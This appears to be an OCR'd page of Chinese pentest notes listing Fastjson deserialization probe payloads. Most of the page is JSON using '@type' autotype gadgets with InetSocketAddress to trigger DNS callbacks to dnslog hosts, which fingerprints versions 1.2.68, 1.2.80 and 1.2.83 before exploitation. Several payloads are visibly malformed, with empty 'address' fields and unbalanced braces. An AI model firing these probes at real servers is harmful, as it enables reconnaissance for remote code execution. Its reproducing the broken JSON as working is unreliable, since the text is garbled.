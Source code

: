 1.2.68 版本

```json
[
  {
    "@type": "java.lang.AutoCloseable",
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.io.ByteArrayOutputStream"
  },
  {
    "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "dnslog"
  }
}
]
```

1.2.80 版本探测
如果收到了两个 dns 请求，则证明使用了 1.2.83 版本
如果收到了一个 dns 请求，则证明使用了 1.2.80 版本

```json
[
  {
    "@type": "java.lang.Exception",
    "@type": "com.alibaba.fastjson.JSONException",
    "x": {
      "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "first.dnslog.cn"
  }
}
},
  {
    "@type": "java.lang.Exception",
    "@type": "com.alibaba.fastjson.JSONException",
    "message": {
      "@type": "java.net.InetSocketAddress"
  {
    "address":,
    "val": "second.dnslog.cn"
  }
}
}
]
```

异常回显 fastjson 精确版本号
